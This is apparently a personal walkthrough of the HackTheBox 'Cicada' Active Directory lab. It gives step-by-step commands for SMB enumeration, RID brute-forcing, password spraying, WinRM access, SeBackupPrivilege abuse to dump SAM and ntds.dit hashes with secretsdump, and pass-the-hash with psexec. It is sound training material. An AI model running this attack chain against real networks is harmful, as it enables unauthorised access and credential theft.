 2025
### NMAP

```
sudo nmap -sC -sV -vv -oN nmap-cicada 10.10.11.35
```
### Enumerate for Initial Access

#### netexec
Try guest authentication
```
nxc smb 10.10.11.35 -u '.' -p '' --shares
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250525235539.png]]
- see we can READ the HR share 

#### smbclient to read the share
```
smbclient -U '.' //10.10.11.35/HR
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250525235700.png]]

get the file and read to reveal default password
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250525235817.png]]

but we need to figure out users..

#### netexec rid brute to get user listing
```
nxc smb 10.10.11.35 -u '.' -p '' --rid-brute
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526000149.png]]

Copy the output and save to users.txt file.

#### Netexec: Password Spraying

```
nxc smb 10.10.11.35 -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8'
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526000525.png]]
- we get a valid user + pass combo

Use this valid user + pass combo to list users in the domain
#### Netexec: List Users
```
nxc smb -u 'michael.w' -p 'Cicada$M6Corpb*@Lp#nZp!8' --users
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526000806.png]]
- got another user + pass in description

Enumerate smb shares again with david's creds and he can read the dev share :) 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526000936.png]]

#### SMBClient again to read dev share 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526001026.png]]
- get backup_script.ps1

Checking out this script and get emily's password 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526001444.png]]

Try this password with netexec
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526001554.png]]
- emily isn't and admin, but has READ,WRITE in C$ share

Look at C$ using smbclient
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526001712.png]]

Test emily's creds against winrm

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526001815.png]]
- we can login using evil-winrm
### Initial Access

#### evil-winrm
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526001911.png]]

### Enumerate for Priv Esc 
```
whoami /all
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526001957.png]]
- we got SeBackupPrivilege and SeRestorePrivilege

We can abuse **SeBackupPrivileges** using `reg save`

### Priv Esc

#### reg save sam and system archives

```
reg save HKLM\SAM SAM
```

```
reg save HKLM\SYSTEM SYSTEM
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526002509.png]]

download these files 

```
download sam
```

```
download system
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526002612.png]]

The run secretsdump to get the SAM hash for the Administrator
```
secretsdump.py local -sam sam -system system
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526003605.png]]
- we get administrator's hash 

Test this hash using netexec and it shows pwn3d!
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526003831.png]]

Then we know we can use psexec to login as admin
```
psexec.py -hashes <ADMIN HASH> administrator@10.10.11.35
```
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526003959.png]]
⭐got root⭐

### Alternate SeBackupPrivilege Abuse - Saving ntds.dit via RoboCopy

If this is an AD machine, then ntds.dit will be where all the creds are stored (not the sam files)

[Reference](https://infosecwriteups.com/elevating-privileges-with-sebackupprivilege-on-windows-107bd34befa2)

Here is the full script (from above linked blogpost) that performs full backup of the C: drive and exposes it as network drive E:

Save this to a file called `diskshadow.txt`
```
set verbose on  
set metadata C:\Windows\Temp\meta.cab  
set context clientaccessible  
set context persistent  
begin backup  
add volume C: alias cdrive  
create  
expose %cdrive% E:  
end backup
```

Convert this file to dos 

```
unix2dos diskshadow.txt
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526004314.png]]

Upload this file to evil-winrm shell 

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526004416.png]]

Then run 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526004447.png]]

Then run the **robocopy** command 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526004558.png]]

Now we have the **ntds.dit** file 
![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526004629.png]]

Download this ntds.dit file 

Use **secretsdump.py** to dump the ntds.dit goodies

```
secretsdump.py local -system system -ntds ntds.dit 
```

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526004844.png]]

![[HackTheBox/Windows Active Directory/attachments/Pasted image 20250526005122.png]]

